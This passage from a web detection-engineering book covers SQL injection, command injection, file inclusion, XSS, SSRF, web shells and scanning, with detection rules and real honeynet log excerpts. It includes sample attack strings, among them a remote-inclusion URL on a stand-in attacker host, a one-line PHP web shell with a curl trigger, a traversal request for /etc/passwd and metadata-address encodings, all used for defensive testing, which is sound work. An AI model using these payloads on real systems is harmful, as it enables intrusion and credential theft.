


# Part 16 — Web Detection Engineering

## Why this part exists

**[CONCEPT]** A public-facing web application is the one asset class most organizations cannot
fully take off the internet, and it is scanned within minutes of DNS resolving to a new IP —
every host in this part's lab evidence was probed by real, unsolicited internet traffic before
any human at the lab pointed a tool at it. This part covers the analytic layer for that request
surface: SQL injection, cross-site scripting (XSS), path traversal, local/remote file inclusion
(LFI/RFI), OS command injection, the remote code execution (RCE) those enable, server-side
request forgery (SSRF), file-upload abuse, web shells, admin-panel and content discovery, bot
behavior, credential stuffing, and API abuse. The telemetry underneath all of it — access logs,
web application firewall (WAF) logs, application logs, and API gateway logs, scored on
completeness and cost — is Part 4's job, not this one's; this part assumes that survey and builds
detection logic on top of it.

This part does not own: the account-takeover and MFA-abuse layer of credential stuffing once it
succeeds against an identity provider's own sign-in log (Part 12 owns that boundary exclusively —
this part owns the web-request-layer signal of the stuffing attempt itself, before and regardless
of whether any attempt succeeds); the host-side process-tree and LOLBin detection logic that
picks up once a web shell spawns a child process (Part 11 owns process lineage across Windows and
Linux; this part stops at the point a web server process spawns something it shouldn't and
hands off); OAuth/app-consent abuse against a SaaS identity platform (Part 18); and the full
request → app → shell → download → network compromise-model synthesis, which Part 47 builds from
this part and Part 11 together. Field-level reference for HTTP/WAF/API log fields lives in
Appendix A2.

## 1. Scope: the web request as telemetry

**[CONCEPT]** Almost everything in this part reduces to one telemetry fact: an HTTP request is a
line with a small, fixed set of attacker-controlled fields — method, path, query string, headers,
body, and the source that sent it — and the detection question is almost always "does the
*shape* of this request, or this sequence of requests, match a pattern that legitimate use of
this application does not produce." That framing matters because it's the same framing this book
uses for SSH brute force in Part 1 and Kerberoasting in Part 13: legitimate protocol operations,
in a context or at a volume that doesn't match how the application is actually used.

> **Engineering Reality**
> The default Apache/Nginx `combined` access-log format captures the request line and headers,
> not the request body — a SQL injection or command injection payload submitted in a POST body
> is invisible to a plain access log, full stop. This is not a tuning problem; it's a field that
> was never captured. Detecting body-carried payloads requires either a WAF/reverse-proxy that
> logs the body, or application-level logging of the parsed parameters — verify which one, if
> either, is actually in place before trusting an empty result set on a POST-body-driven rule as
> "clean."

**[ENGINEERING]** This is not a hypothetical gap in this book's own lab evidence: the honeynet's
`http_events` table logs `method`, `path`, `credential_user`, `credential_pass`, and `user_agent`
as distinct fields specifically because the platform's own developers needed structured access to
exactly the fields a bare access log doesn't cleanly expose — the GPON exploit attempt used as
this part's worked example in §8 is identifiable by `path` alone, but a body-carried SQL injection
payload against the same decoy would need a dedicated field the way `credential_user` is here.

## 2. Injection: SQL injection, command injection, and the RCE they enable

**[CONCEPT]** SQL injection (SQLi), OS command injection, and the RCE they both enable share the
same underlying mechanism: user-controlled input crosses a trust boundary into a context — a SQL
parser, a shell, a template engine, a deserializer — that was never supposed to treat that input
as executable. None of these exploit a bug in the strict sense; they exploit a missing boundary
between data and code. **MITRE:** T1190 (Exploit Public-Facing Application).

### 2.1 SQL injection signals at the log layer

**[DETECTION ENGINEER]** A request-log-only detection for SQLi is a pattern match against known
injection syntax in the query string or logged body: `UNION SELECT`, stacked queries (`; DROP`),
boolean-blind probes (`' OR '1'='1`), time-based blind probes (`SLEEP(`, `WAITFOR DELAY`), and
error-based probes that intentionally break SQL syntax to read back a database error message.

CONCEPTUAL SAMPLE — illustrative Splunk SPL; invented field names, not validated against a real
WAF or app-log schema, and not replayed against a production false-positive corpus.

```spl
index=web_access sourcetype=waf_log
| regex _raw="(?i)(union\s+select|sleep\(\d|waitfor\s+delay|information_schema|'\s*or\s*'1'\s*=\s*'1)"
| stats count by src_ip, uri_path, http_user_agent
| where count >= 3
```

This matches on literal injection syntax, so it inherits every weakness of a signature: an
attacker who encodes the payload (URL-encoding, comment insertion — `UN/**/ION SEL/**/ECT` — or
case variation the regex doesn't cover) walks straight past it. Treat this as a first-pass filter
that catches unsophisticated and automated scanner traffic, not as detection coverage against a
targeted attacker.

> **Blind Spot**
> `stats count by src_ip, uri_path, http_user_agent | where count >= 3` requires the *same*
> source, path, and user agent to repeat the matched syntax three times before anything fires. A
> hand-crafted UNION-based extraction that pulls an entire table in one or two well-formed
> requests — the signature the regex line is explicitly designed to catch — never crosses the
> threshold and produces zero alerts, not a low-confidence one. The threshold is tuned for
> automated/scanner volume, not for a competent attacker who only needs one shot; don't read "no
> alert" from this rule as "no successful injection occurred."

> **False Positive Trap**
> Security tooling and vulnerability scanners — including a legitimate internal scanner, not just
> an attacker's — send deliberately malformed SQL syntax as part of authorized testing, and a
> WAF's own `mod_security` core rule set audit mode can log its own test payloads. This book's
> lab evidence shows the same collision pattern from a different angle: rows 671–678 of the
> honeynet's `http_events` table are the lab's own CT104 vulnerability-scanner host running an
> HTTP-client-library fingerprint sweep (`Python-urllib/2.5`, `PHP/`, `MFC_Tear_Sample`, `Snoopy`,
> `GT::WWW`, the Nmap Scripting Engine UA) against the honeypot — internal, authorized traffic
> that is signature-for-signature identical to a scanner reconnaissance sweep. The fix: allowlist
> known internal scanner source ranges explicitly, keyed on IP/CIDR, not on user-agent string —
> an attacker copies a legitimate-looking UA for free, but can't as easily spoof your scanner's
> actual source address without already being on your network.

### 2.2 OS command injection

**[DETECTION ENGINEER]** Command injection targets a shell invocation instead of a SQL parser,
usually via shell metacharacters (`;`, `|`, `` ` ``, `$(...)`, `&&`) appended to a parameter the
application passes to a system call. **MITRE:** T1059 (Command and Scripting Interpreter),
T1059.004 (Unix Shell) on Linux-hosted applications, T1059.003 (Windows Command Shell) on
IIS/Windows-hosted ones.

CONCEPTUAL SAMPLE — illustrative KQL against a hypothetical WAF/reverse-proxy log with a
`RequestBody` field; the following Sentinel KQL query targets a schema this book invents for
illustration, not a validated production one.

```kql
WafLogs
| where RequestBody has_any (";", "|", "`", "$(", "&&", "wget ", "curl ")
| summarize AttemptCount = count() by SourceIp, RequestUri
| where AttemptCount >= 3
```

> **Blind Spot**
> This rule only sees the injection *attempt* in the logged request — it has no visibility into
> whether the shell actually executed the payload, what it ran, or what it spawned. A successful
> command injection that never gets logged at the web layer at all (a body field the WAF doesn't
> capture, per the Engineering Reality box in §1) is invisible here regardless of how good the
> regex is. Closing that gap needs host-side process telemetry — Part 11's process-lineage
> detection, correlated by time and source host, not a better web-layer signature. Separately,
> `summarize AttemptCount = count() by SourceIp, RequestUri | where AttemptCount >= 3` means a
> single well-placed injected command — most command injection only needs one successful call —
> never reaches the threshold in the first place; the aggregation is tuned to catch a scanner
> hammering the same parameter, not the one-shot targeted case.

### 2.3 From injection to RCE: the observable chain

**[THREAT HUNTER]** A useful hunting habit for any injection finding is to ask what the *next*
observable event should be if the injection actually succeeded, rather than stopping at "the
payload matched." A successful command injection on a Linux-hosted app typically produces, within
seconds: an outbound connection from the web server process to an unfamiliar destination (a
download or callback), a new file written under the web root or a temp directory, or a child
process the web server binary never spawns during normal operation. None of those show up in the
web log — they show up in network and host telemetry, which is exactly why this part's worked
example in §8 and the case study in §6 lean on correlated, multi-source honeynet data rather than
a single log line.

## 3. Path traversal, LFI, and RFI

**[CONCEPT]** Path traversal (`../../../etc/passwd`), local file inclusion (LFI — the application
is tricked into including and often executing a file already on the server), and remote file
inclusion (RFI — the application is tricked into fetching and including a file from an
attacker-controlled remote location) all abuse the same class of trust failure: user input reaches
a filesystem or include path without being validated against the directory the application
actually intends to serve from. **MITRE:** T1190 (Exploit Public-Facing Application); a successful
LFI reading sensitive local files (`/etc/passwd`, application config, credentials) maps onward to
T1005 (Data from Local System) once the read succeeds.

**[DETECTION ENGINEER]** The log-layer signal is a request path or parameter value containing
directory-traversal sequences (`../`, `..%2f`, `%2e%2e%2f` double-encoded, or absolute paths like
`/etc/passwd` or `C:\Windows\win.ini` appearing where a filename parameter is expected), or a
parameter that takes a full URL where the application expects a local filename — the latter is
the RFI-specific tell.

| Pattern | Typical parameter shape | Legitimate use it collides with |
|---|---|---|
| Path traversal | `?file=../../../../etc/passwd` | None with a legitimate business reason — near-zero false-positive rate once URL-decoding is applied before matching |
| LFI via null-byte/extension trick | `?page=../../../etc/passwd%00` | Legacy PHP-specific; near-zero legitimate collision on a current PHP version, since null-byte injection was patched years ago |
| RFI via full URL in a file parameter | `?template=http://attacker.example/shell.txt` | A legitimate integration that fetches remote resources by design (an image proxy, a webhook fetcher) — this is the one row that needs an allowlist of approved remote hosts, not a blanket block |

> **Detection Test**
> **Setup:** A lab web application with a known, deliberately vulnerable file-inclusion endpoint
> (e.g., a DVWA or similarly scoped intentionally-vulnerable lab target — never run this against
> production or third-party infrastructure).
> **Action:** `curl "http://lab-target/vulnerable.php?page=../../../../etc/passwd"`
> **Expected result:** One access-log entry with the URL-decoded traversal sequence visible in
> the `path`/query field, and — if the application actually served the file — a response body
> containing recognizable `/etc/passwd` content that the WAF/app-log layer should also be able to
> flag on response size or content pattern, not request pattern alone.

## 4. Cross-site scripting: what the log layer can and can't see

**[CONCEPT]** XSS injects attacker-controlled script into a page rendered in another user's
browser — reflected (the payload round-trips through one request/response and executes for the
requesting user only), stored (the payload is saved server-side and executes for every later
visitor), and DOM-based (the payload never touches the server at all; it's a client-side
JavaScript flaw). The most common attacker goal downstream of a successful XSS is session-token
theft. **MITRE:** T1539 (Steal Web Session Cookie) is the typical payoff technique once script
execution succeeds; ATT&CK has no single clean technique ID for the injection step itself, and
this part will not force one — the injection is better described in plain prose than tagged with
a tenuous mapping.

**[DETECTION ENGINEER]** Reflected and stored XSS attempts are visible at the request layer as
HTML/script markup or event-handler syntax in a parameter value that should be plain text —
`<script>`, `onerror=`, `javascript:`, `<svg onload=`, and their encoded variants. DOM-based XSS
is structurally invisible to server-side logging, because the vulnerable code path never sends
the payload to the server in a form the server can inspect — this is the section's Blind Spot,
stated once because it applies to every rule below it.

> **Blind Spot**
> Server-side request/response logging cannot see a DOM-based XSS payload that a client-side
> script assembles and executes entirely in the browser, and it cannot see whether a
> successfully-stored XSS payload actually executed against any real victim, only that it was
> successfully written to storage. Confirming impact needs client-side telemetry (a Content
> Security Policy violation report endpoint, browser-based synthetic monitoring, or a user
> report) — not a stronger web-log rule, because the web log was never the layer that could see
> this in the first place.

## 5. Server-side request forgery (SSRF)

**[CONCEPT]** SSRF tricks the server itself into making a request to a destination the attacker
chooses, using the server's own network position and credentials — most commonly to reach an
internal-only service the attacker couldn't otherwise route to, or a cloud provider's instance
metadata endpoint to steal temporary credentials. **MITRE:** T1190 (Exploit Public-Facing
Application) for the entry vector; T1552.005 (Unsecured Credentials: Cloud Instance Metadata API)
for the metadata-theft payoff specifically.

**[DETECTION ENGINEER]** The request-layer signal is a URL-shaped parameter (`?url=`, `?callback=`,
`?webhook=`, `?image=`) whose value resolves to a private/link-local address range —
`169.254.169.254` (the near-universal cloud metadata address across AWS, Azure, and GCP),
`127.0.0.1`, `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16` — or that uses a redirect,
DNS-rebinding, or an alternate IP encoding (decimal, octal, or IPv6-mapped) specifically to defeat
a naive string-match blocklist against those ranges.

CONCEPTUAL SAMPLE — illustrative Sigma rule against an application log with an invented
`OutboundFetchTarget` field; not validated against a real reverse-proxy or app-framework schema.

```yaml
title: Server-initiated outbound request targets cloud metadata address
id: 4c9a2b7e-118f-4a4d-9d3a-2b1e0c6f9a7d
status: experimental
description: >
  Detects an application-initiated outbound fetch (image proxy, webhook,
  URL-preview feature) whose resolved target is a cloud metadata or
  loopback/link-local address, consistent with SSRF targeting instance
  credentials.
logsource:
  category: application
  product: web_app
detection:
  selection:
    OutboundFetchTarget|contains:
      - '169.254.169.254'
      - '127.0.0.1'
      - '::1'
  condition: selection
falsepositives:
  - A legitimate internal health-check or self-referential webhook configured
    to call the application's own loopback address
level: high
```

> **Blind Spot**
> The rule above is itself the naive string-match blocklist the surrounding prose warns an
> attacker will defeat: `OutboundFetchTarget|contains` only matches the literal strings
> `169.254.169.254`, `127.0.0.1`, and `::1`. It does not catch the decimal (`2852039166`), octal
> (`0251.0376.0251.0376`), or IPv6-mapped (`::ffff:169.254.169.254`) encodings of the same address,
> a redirect chain that only resolves to the metadata address after the initial fetch, or
> DNS-rebinding where the logged hostname resolves to a public IP at request time and the
> metadata address only at fetch time. Closing this requires normalizing/resolving the target
> before matching — a capability this log-layer rule, as written, does not have.

> **What Would Change My Mind**
> This section treats any server-initiated fetch targeting `169.254.169.254` as high-confidence
> malicious, on the assumption that legitimate application logic essentially never needs to reach
> the metadata address directly (cloud SDKs fetch credentials through a library call, not through
> a user-facing URL parameter). If a real environment turned up a legitimate feature that
> constructs its own metadata-address fetch from user-influenced input — not just from static
> application code — that finding would move this rule from a near-unconditional block to an
> allowlist-scoped one, and the confidence rating in this section would drop accordingly.

## 6. File upload abuse and web shells

**[CONCEPT]** A file-upload feature is a trust boundary the moment it accepts attacker-supplied
bytes onto the server's filesystem; the attack succeeds when those bytes land somewhere the web
server will execute rather than merely store — a `.php`/`.aspx`/`.jsp` file inside the web root,
or a filename/extension check bypassed via double extensions, null bytes, or content-type
spoofing. A web shell is the payload that succeeds: a small script that gives the attacker
command execution through further HTTP requests, with no need for any other foothold. **MITRE:**
T1505.003 (Server Software Component: Web Shell).

### 6.1 The naive detection, dissected

> **Detection Autopsy — "unsigned process spawned by the web server is malware"**
>
> **The rule:** Alert whenever a process spawned by the web-server binary (`w3wp.exe`,
> `php-fpm`, `apache2`, `nginx`) is not signed by a trusted publisher.
>
> **Why it shipped:** A dropped web-shell payload is, almost by definition, a file the attacker
> wrote — nobody signs a one-off PHP backdoor — so "the web server just spawned something
> unsigned" reads as an intuitively sound, cheap-to-implement tripwire, and it demos well because
> a hand-built test web shell trips it every time.
>
> **How it failed:** Real post-exploitation overwhelmingly reaches for binaries that are already
> present and already signed — `/bin/sh`, `cmd.exe`, `powershell.exe`, `curl`, `wget` — because
> the attacker doesn't need to drop a custom tool to get a shell once the web shell itself is
> running; the web shell *is* the unsigned artifact, and everything it spawns afterward is a
> signed, legitimate system binary being used in a way it normally never is from that parent. The
> rule missed the actual attacker activity (signed LOLBins) while flagging every legitimate,
> unsigned internal tool or CGI helper script a real application deploys through the same server
> process during normal operation — high false-negative rate on the thing that matters and a
> real false-positive rate on the thing that doesn't.
>
> **The fix:** Detect the parent-child *relationship* instead of the child's signature status: a
> web-server process spawning any shell interpreter, script interpreter, or network utility at
> all is the anomaly — signed or not — because a healthy web server almost never spawns a shell
> as part of serving a request. This is process-lineage detection, and it's Part 11's rule to
> build and own; this part's job stops at recognizing that the naive signature-based version is
> the wrong layer to solve it at.

**[DETECTION ENGINEER]** **DET-16-04 — Web-server process spawning a shell or script interpreter.**
The corrected analytic from the autopsy above: a process whose image is a known web-server binary
(`apache2`, `httpd`, `nginx`, `php-fpm`, `w3wp.exe`) spawns a child process that is a shell or
script interpreter (`/bin/sh`, `/bin/bash`, `cmd.exe`, `powershell.exe`, `perl`, `python3`) with no
matching entry in an allowlist of the application's own known legitimate helper scripts.

CONCEPTUAL SAMPLE — illustrative Sigma rule; field names follow common Sysmon/EDR
process-creation conventions but the rule has not been validated against a specific vendor
schema or replayed against a false-positive corpus. Scoped to the Linux/Apache/Nginx case only —
`logsource.product: linux` means this exact rule does not evaluate against the `w3wp.exe`/
`cmd.exe`/`powershell.exe` combination named above in prose; an IIS-hosted deployment needs a
parallel rule with `logsource.product: windows` and `ParentImage`/`Image` values swapped for the
Windows binaries. Treat the two as one analytic implemented as two platform-specific rules, per
the Analytic/Detection Rule distinction in TERMINOLOGY.md, not one rule silently covering both.

```yaml
title: Web server process spawns a shell or script interpreter
id: 9d2f6a11-7c3e-4b1a-8e5f-1a2b3c4d5e6f
status: experimental
description: >
  Detects a web-server binary spawning a shell/script interpreter as a
  direct child process, consistent with a web shell executing an attacker
  command. Implements the corrected analytic from the Detection Autopsy
  in Part 16 section 6.1.
logsource:
  category: process_creation
  product: linux
detection:
  selection:
    ParentImage|endswith:
      - '/apache2'
      - '/httpd'
      - '/nginx'
      - '/php-fpm'
    Image|endswith:
      - '/sh'
      - '/bash'
      - '/dash'
      - '/perl'
      - '/python3'
  filter_known_helpers:
    Image|endswith: '/known_cgi_helper.sh'
  condition: selection and not filter_known_helpers
falsepositives:
  - A CGI-era application that legitimately shells out to a helper script as
    part of normal request handling — maintain filter_known_helpers as an
    explicit, reviewed allowlist rather than broadening the selection logic
level: high
```

This rule lives at the boundary this part hands off across: the *request* that delivered the web
shell is this part's telemetry, and the *process spawn* that proves it landed is Part 11's. Cross
reference this rule's ID here so a reader arriving from either part finds the same analytic
rather than two slightly different ones.

> **Blind Spot**
> This rule only fires when the web shell pivots to an OS-level shell or interpreter as a *child
> process*. A web shell written to do everything inside the scripting language's own runtime — PHP
> functions like `file_get_contents()`/`file_put_contents()` for filesystem access, `curl`/socket
> extensions for outbound network calls, or `eval()`-driven logic that never calls `system()`,
> `exec()`, or `popen()` — produces no process-creation event at all, because `php-fpm` itself
> performs the malicious action without forking anything. This is a common design choice in
> real web shells specifically to evade process-lineage detection; a rule scoped to this analytic
> alone does not see it, and closing the gap needs application-layer signals (unexpected outbound
> connections from the app process itself, unexpected file writes under the web root) rather than
> a wider process-spawn pattern.

> **Engineering Reality**
> `ParentImage` and `Image` are Sysmon's field names; not every EDR agent uses them. Some vendor
> schemas split the parent binary's path and filename into separate fields, or omit the full path
> and expose only a base filename. If the rule is ported field-for-field into a platform that
> doesn't populate `ParentImage` the way Sysmon does, the query compiles and returns zero matches
> — indistinguishable from "no web shells fired" — rather than failing loudly. Confirm the actual
> field mapping for your specific EDR/SIEM pairing before trusting an empty result set here.

> **Detection Test**
> **Setup:** Linux test host running Apache or Nginx with Sysmon for Linux (or equivalent EDR
> process-creation telemetry) installed, no production traffic.
> **Action:** Drop a one-line PHP web shell (`<?php system($_GET['c']); ?>`) into the web root via
> an authorized upload/write, then request it: `curl "http://lab-host/shell.php?c=id"`
> **Expected result:** A process-creation event with `ParentImage` ending in `/apache2` (or
> `/nginx`/`/php-fpm`, depending on how the server hands off PHP) and `Image` ending in `/sh` or
> `/bash`, `CommandLine` containing `id`, not matched by `filter_known_helpers`.

> **Hunter's Note**
> If you don't have process-creation telemetry on the web tier at all — common on managed
> hosting or a PaaS where you don't control the underlying instance — pivot to the web log's own
> response-size and status-code pattern instead: a successful web-shell upload followed by
> repeated small, 200-status requests to the *same uploaded filename* over time, from one or a
> small number of source IPs, is a workable proxy signal even with zero host telemetry. It's
> weaker than DET-16-04, but it's better than nothing when the process layer genuinely isn't
> available.

## 7. Admin-panel and sensitive-path discovery

**[CONCEPT]** Before exploiting anything, most real attacks — and essentially all automated
scanning — enumerate what exists: `/admin`, `/wp-login.php`, `/.env`, `/.git/config`,
`/phpmyadmin`, `/api/v1/`, and thousands of other known-interesting paths, checked systematically
with a wordlist tool (`gobuster`, `ffuf`, `dirbuster`) or a broader internet-scanning platform.
**MITRE:** T1595.003 (Active Scanning: Wordlist Scanning).

**[DETECTION ENGINEER]** The signal is volume and diversity, not any single path: one source
requesting many distinct paths in a short window, most of them returning 404, with a request
pattern (sequential, alphabetical, or wordlist-shaped) that a human clicking through a real site
never produces.

**Figure 16.1 (FIG-16-01) — Distributed MCP-endpoint scanning burst against a honeynet decoy.**
*REAL LAB EXAMPLE.* Excerpt from `/var/log/apache2/access.log` on CT113 ("aeronex-legacy"), a sacrificial
decoy in the author's home lab honeynet. Captured 2026-09-15; log lines span 2026-09-15
00:19–07:42.

```text
139.162.28.72 - - [15/Sep/2026:00:19:35 +0000] "" 400 539 "-" "-"
193.124.20.250 - - [15/Sep/2026:00:29:58 +0000] "GET / HTTP/1.1" 200 1814 "-" "Mozilla/5.0 (compatible; Infrawatch/1.0; +https://infrawat.ch/)"
5.226.140.13 - - [15/Sep/2026:00:30:08 +0000] "GET /favicon.ico HTTP/1.1" 404 498 "-" "Mozilla/5.0 (compatible; Infrawatch/1.0; +https://infrawat.ch/)"
31.14.254.55 - - [15/Sep/2026:00:30:08 +0000] "GET /api/mcp HTTP/1.1" 404 498 "-" "Mozilla/5.0 (compatible; Infrawatch/1.0; +https://infrawat.ch/)"
5.226.140.19 - - [15/Sep/2026:00:30:08 +0000] "GET /mcp HTTP/1.1" 404 498 "-" "Mozilla/5.0 (compatible; Infrawatch/1.0; +https://infrawat.ch/)"
31.14.254.36 - - [15/Sep/2026:00:30:08 +0000] "GET /mcp/ HTTP/1.1" 404 498 "-" "Mozilla/5.0 (compatible; Infrawatch/1.0; +https://infrawat.ch/)"
195.206.182.198 - - [15/Sep/2026:00:30:09 +0000] "GET /sse HTTP/1.1" 404 498 "-" "Mozilla/5.0 (compatible; Infrawatch/1.0; +https://infrawat.ch/)"
```

This single burst — six requests in under one minute, six different source IPs, all sharing the
identical `Infrawatch/1.0` user agent, walking a small fixed set of paths (`/`, `/favicon.ico`,
`/api/mcp`, `/mcp`, `/mcp/`, `/sse`) — is internet-wide infrastructure-mapping traffic
specifically probing for exposed Model Context Protocol (MCP) server endpoints, unrelated to
whatever specific vulnerable service this decoy is actually running. The rotating source IP per request, against a
fixed, identical path set, is the tell that this is a distributed scanning platform rather than
one host retrying — the opposite fan-out pattern from the single-source-many-paths signature
described above, and worth detecting as its own pattern (many sources, one fixed path set, one
shared UA, tight time window) rather than forcing it into the same rule.

> **SOC Management View**
> A public-facing web application will be enumerated by automated scanners continuously, forever,
> from the moment its DNS resolves — this evidence is six requests in under a minute against a
> lab decoy nobody advertised. Alerting an analyst on every scan attempt is not a staffing-viable
> policy; the operational question is not "did a scan happen" (yes, constantly) but "did a scan
> discover something that shouldn't have been discoverable" (an exposed `.git` directory, an
> unauthenticated admin panel, a debug endpoint) — scope the alerting threshold and the escalation
> criteria to that question, not to scan volume.

## 8. Bot behavior, and a worked case study: the GPON RCE probe

**[CONCEPT]** "Bot behavior" at the web layer covers everything from benign search-engine
crawlers through commercial internet-mapping platforms to attack-tool-driven scanning and
opportunistic exploit probing — the same infrastructure often produces all of these from the same
source ranges, since a scan-for-exposure step and an exploit-attempt step are frequently run by
the same automated pipeline, seconds apart.

**Figure 16.2 (FIG-16-02) — A real opportunistic RCE probe against a honeynet web decoy, captured
alongside scanner traffic in the same evidence set.** *REAL LAB EXAMPLE.* Rows from the `http_events` table
on CT103 (the author's home-lab honeynet collector). Captured 2026-09-15; events span
2026-09-09 17:06–21:39.

```text
id   ts                                src_ip           method  path                 user_agent
695  2026-09-09T21:39:39.936738+00:00  189.18.97.61     GET     /hachk.php           proxy-prefilter/1
694  2026-09-09T21:36:41.187764+00:00  223.123.43.135   POST    /GponForm/diag_Form  Hello, World
693  2026-09-09T21:28:40.194169+00:00  89.21.67.141     GET     /sse                 Mozilla/5.0 (compatible; Infrawatch/1.0; +https://infrawat.ch/)
686  2026-09-09T20:40:51.502493+00:00  85.217.149.47    GET     /favicon.ico         ...ModatScanner/1.2 (+https://modat.io/)
```

Row 694 is a real POST to `/GponForm/diag_Form` — the well-documented path for the GPON router
authentication-bypass RCE tracked as CVE-2018-10561 and CVE-2018-10562, still mass-scanned for
across the internet years after disclosure because unpatched consumer GPON routers remain
reachable at scale. This decoy is not a GPON router and the request had nothing to exploit, but
the request itself is a genuine, opportunistic exploit-shaped probe from a real internet source —
not a synthetic example built for this book.

**[DETECTION ENGINEER]** **DET-16-01 — Known-CVE exploit-path request against a web application or
device endpoint.**
**MITRE:** T1190 (Exploit Public-Facing Application).

CONCEPTUAL SAMPLE — illustrative Sigma rule; the path list below is a small, illustrative sample
of one known-CVE exploit path, not a maintained or complete signature set for production use.

```yaml
title: Request to a known-CVE-associated exploit path
id: 2e7b9c14-5a3d-4f6a-9c1e-8d7f6a5b4c3e
status: experimental
description: >
  Detects an HTTP request to a path strongly associated with a specific,
  named CVE exploit chain, regardless of whether the target actually runs
  the vulnerable software. Worked example: GPON router auth-bypass RCE
  (CVE-2018-10561/CVE-2018-10562).
logsource:
  category: webserver
detection:
  selection:
    http_method: 'POST'
    url_path|contains: '/GponForm/diag_Form'
  condition: selection
falsepositives:
  - Essentially none for this specific path on infrastructure that isn't a
    GPON router — the false-positive risk in this pattern class is a stale
    or incomplete path list, not legitimate traffic colliding with it
level: high
```

The main limitation of this rule class isn't false positives — a request to
`/GponForm/diag_Form` from the internet has no legitimate explanation on non-GPON
infrastructure — it's Detection Drift: this signature is worthless the moment the scanning tool
moves to the next CVE's path, and a list of known-exploit paths needs continuous maintenance
against current scanning campaigns to stay useful. This is exactly the signature-anchored end of
the detection spectrum introduced in Part 1 §3: cheap, high-precision, and durable only as long as
the artifact (the path) doesn't change. It also depends entirely on `url_path` (or whatever the
log source calls the request path) being populated and unmangled — a reverse proxy that logs a
normalized or truncated path, or a WAF tier that strips the query/path before the access log ever
sees it, produces the same silent zero-result outcome as the Engineering Reality box in §1 warns
about for POST-body payloads.

> **Detection Test**
> **Setup:** A lab web server (any Apache/Nginx instance is fine — it does not need to run GPON
> firmware) with access logging enabled and forwarded to wherever `url_path`/`http_method` are
> parsed from it.
> **Action:** `curl -X POST "http://lab-host/GponForm/diag_Form" -d "images=1"`
> **Expected result:** One access-log entry with `http_method` = `POST` and `url_path` containing
> `/GponForm/diag_Form`, matching `selection` regardless of the HTTP response code the lab server
> actually returns (404 is expected and fine — the rule matches the request, not the response).

> **False Positive Trap**
> This part's own worked example contains an internal false positive worth naming explicitly:
> rows 671–678 in the same `http_events` table (§2.1's False Positive Trap box) are this lab's own
> vulnerability-scanner host, not an external attacker. A path- or CVE-signature rule like
> DET-16-01 doesn't collide with that traffic (the vulnscan sweep never requests a GPON path), but
> a broader "any exploit-shaped request" analytic would need the same source-based allowlist
> discussed there — the lesson generalizes past this one rule.

**Figure 16.3 (FIG-16-03) — Correlated attack sessions, tagged with real MITRE ATT&CK techniques
by the honeynet platform's own logic.** *REAL LAB EXAMPLE.* Output from the `attack_sessions`
correlation table on CT103. Captured 2026-09-15; sessions span 2026-09-15T00:01–07:43.

```text
session_id     source_ip        status            mitre_techniques_json                 notes
d48b795e...    16.5.0.236       possible_success  ["T1595","T1046","T1083","T1190"]     exploit attempt observed, followed by continued
                                                                                          activity from the same source -- worth manual review
ba0ab1f3...    45.156.128.45    exploit_attempt   ["T1595","T1046","T1190"]              exploit-category alert observed (traversal/CVE-path/
                                                                                          SQLi-like); no follow-on activity yet
```

**MITRE:** T1595 (Active Scanning), T1046 (Network Service Discovery), T1083 (File and Directory
Discovery), T1190 (Exploit Public-Facing Application).

**[THREAT HUNTER]** The platform's own `status` field is doing real detection-engineering work
here: `exploit_attempt` means an exploit-shaped request was seen with no follow-on;
`possible_success` means the same source kept interacting with the decoy *after* the
exploit-shaped request — the sequence a rule built on a single request, like DET-16-01, cannot
express on its own. Thirteen of the twenty most recent sessions in this table carry
`possible_success` status against three different internal decoy addresses, including three
separate sessions from the same source (`16.5.0.236`) hours apart on the same day — the kind of
recurring-source pattern worth a hunt, not just a per-request rule.

**HUNT-16-01 — Would DET-16-01's exploit-path rule alone have distinguished a probe from a
possible compromise?**

**MITRE:** T1190 (Exploit Public-Facing Application).

**Threat Hypothesis:** A source that sends an exploit-shaped request and then continues
interacting with the same decoy is meaningfully different from one that sends the request once
and never returns — and a detection built only on the request pattern (DET-16-01's style) cannot
tell the two apart, because both produce an identical single alert instance.

**Finding:** Confirmed against Figure 16.3. `exploit_attempt` and `possible_success` sessions
trigger the *same* underlying request-pattern signal (the notes field for both describes an
"exploit-category alert or attack-shaped web request"); the only thing that separates them in the
platform's own logic is continued activity from the same source afterward, within the same
session window. A rule scoped to DET-16-01 alone would raise one identical-looking alert for both
`ba0ab1f3...` (no follow-on activity yet) and `d48b795e...` (follow-on activity from the same
source seconds later, within the same session window) — exactly the distinction a triaging analyst
needs and the raw per-request rule cannot supply.

**Disposition:** Negative finding against a request-only detection design; positive finding for a
correlation-based analytic candidate — session-scoped, keyed on source IP, that upgrades an
`exploit_attempt` alert to a higher-priority `possible_success` state when the same source
returns within a bounded window. That candidate is a direct instance of the Correlation paradigm
from Part 1 §3.3, and it's the honeynet platform's own production logic, not a hypothetical this
book invented for the example.

> **Hunter's Note**
> When a single request-pattern rule and a session-correlation rule would fire on the exact same
> first event, don't discard the simple rule — keep it as the trigger and layer the correlation
> on top as an *escalation*, not a replacement. DET-16-01 still tells you a probe happened
> immediately; the correlation tells you, later, whether it's worth waking someone up for.






**Figure 16.4 (FIG-16-04) — Exploit-session status escalation pipeline.** *CONCEPTUAL.* Illustrates the
status-escalation logic the honeynet platform applies in practice (recon → probe → exploit
attempt → possible success → confirmed post-exploitation), generalized from the real
`attack_sessions` behavior captured in Figure 16.3. This is a process model of the escalation logic,
not a capture of any single tool's internal state machine.

## 9. Credential stuffing at the web layer

**[CONCEPT]** Credential stuffing replays username/password pairs breached from one service
